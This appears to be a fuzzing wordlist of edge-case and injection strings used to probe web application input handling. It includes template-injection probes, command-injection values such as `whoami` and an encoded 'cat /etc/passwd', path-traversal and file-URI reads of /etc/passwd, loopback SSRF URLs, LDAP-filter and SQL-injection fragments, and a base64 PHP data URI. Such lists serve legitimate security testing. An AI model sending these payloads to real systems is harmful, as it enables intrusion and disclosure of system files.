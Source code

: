 ```txt
\\r
\\r\\n
\\s
//
//*
*/*
@*
undefined
undef
null
NULL
(null)
nil
NIL
true
false
True
False
TRUE
FALSE
None
NaN
()
{}
[]
<>
\\
0xdeadbeaf
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
`whoami`
uname%20-a
%3Bcat%20/etc/passwd
cmd.exe

}}<tag>
https://127.1/
ftp://0x7f000001/
smb://0000::1:445/
file:///etc/passwd
./../../../etc/passwd
zip:///filename_path
data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==
test}}{
foo<
foo'
foo<!--
&foo
]]>
foo</bar>\"
*)(&
,*)(|&
pwd)
*)(|(*
*))%00
,admin)(&)
user=*)(uid=*))(|(uid=*
test&foo=\"
'||(elt(-3+5,bin(15),ord(10),hex(char(45))))
||6
```